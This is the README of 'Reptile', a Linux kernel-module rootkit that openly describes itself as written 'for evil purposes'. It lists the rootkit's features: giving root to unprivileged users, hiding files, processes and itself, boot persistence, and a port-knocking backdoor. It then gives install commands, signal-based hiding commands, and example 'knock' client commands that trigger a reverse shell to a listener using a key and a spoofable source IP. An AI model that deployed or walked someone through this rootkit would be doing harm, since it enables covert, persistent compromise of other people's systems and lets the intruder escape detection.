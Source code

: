 # Reptile

<img align="left" src="https://imgur.com/nqujOlz.png">

<br><br><br>Reptile is a LKM rootkit written for evil purposes that runs on kernel 2.6.x/3.x/4.x. Probably is the best that you will find public on the Internet.<br>

If you are searching stuff only for study purposes, see the [demonstration codes](https://github.com/f0rb1dd3n/papers/tree/master/rootkit_demonstration).<br><br><br>

## Features

- Give root to unprivileged users
- Hide files and directories
- Hide files contents
- Hide processes
- Hide himself
- Boot persistence
- Heaven's door - A ICMP/UDP/TCP port-knocking backdoor
- Client to knock on heaven's door :D
   
## Roadmap

- Socket/Packet hiding
- Port-knocking backdoor in kernel land
 
## Install
```
apt-get install linux-headers-$(uname -r)
git clone https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
./installer.sh install
```
## Uninstall
```
./install.sh remove
```

## Usage

Binaries will be copied to `/reptile` folder, that will be hidden by Reptile.

### Getting root privileges

<p align="center">
   <img src="https://imgur.com/bb3Bs5l.png">
</p>

### Hiding

- Hide/unhide reptile module: `kill -50 0`
- Hide/unhide process: `kill -49 <PID>`
- Hide files contents: `kill -51 0` and all content between the tags will be hidden

Example:
```
#<reptile> 
content to hide 
#</reptile>
```

### Knocking on heaven's door

Heaven's door is a ICMP/UDP/TCP port-knocking backdoor used by Reptile. To access the backdoor you can use the client: 
```
Knock Knock on Heaven's (Back)Door
Written by: F0rb1dd3n

Usage: ./knock <args>

-x      Protocol (ICMP/UDP/TCP)
-s      Source IP address (You can spoof)
-t      Target IP address
-p      Source Port
-q      Target Port
-d      Data to knock on backdoor: "<key> <reverse IP> <reverse Port>"
-l      Launch listener

[!] ICMP doesn't need ports

ICMP: ./knock -x icmp -s 192.168.0.2 -t 192.168.0.3 -d "F0rb1dd3n 192.168.0.4 4444" -l
UDP:  ./knock -x udp  -s 192.168.0.2 -t 192.168.0.3 -p 666 -q 53 -d "F0rb1dd3n 192.168.0.4 4444" -l
TCP:  ./knock -x tcp  -s 192.168.0.2 -t 192.168.0.3 -p 666 -q 80 -d "F0rb1dd3n 192.168.0.4 4444" -l

```
<p align="center">
   <img src="https://imgur.com/suuOUj2.png">
</p>

## Disclaimer

Some functions of this module is based on another rootkits. Please see the references!

## References

- “[LKM HACKING](http://www.ouah.org/LKM_HACKING.html)”, The Hackers Choice (THC), 1999;
- https://github.com/mncoppola/suterusu
- https://github.com/m0nad/Diamorphine.git
- https://github.com/David-Reguera-Garcia-Dreg/enyelkm.git
- https://github.com/maK-/maK_it-Linux-Rootkit
- “[Abuse of the Linux Kernel for Fun and Profit](http://phrack.org/issues/50/5.html)”, Halflife, Phrack 50, 1997;
- https://ruinedsec.wordpress.com/2013/04/04/modifying-system-calls-dispatching-linux/

## Contributing

I am open to receiving contributions. If you can contribute with this project, discuss the contribution via e-mail or open an issue, fork the project and make a pull request. I will evaluate pull requests and merge to the project. 

I will consider writing new features with contribution to my BTC Wallet: `1ASRMARFrpSanLHXCdNHD7K7pvr1fbK2fb`

<p align="center">
   <img src="https://imgur.com/RdYgb1T.gif">
</p>
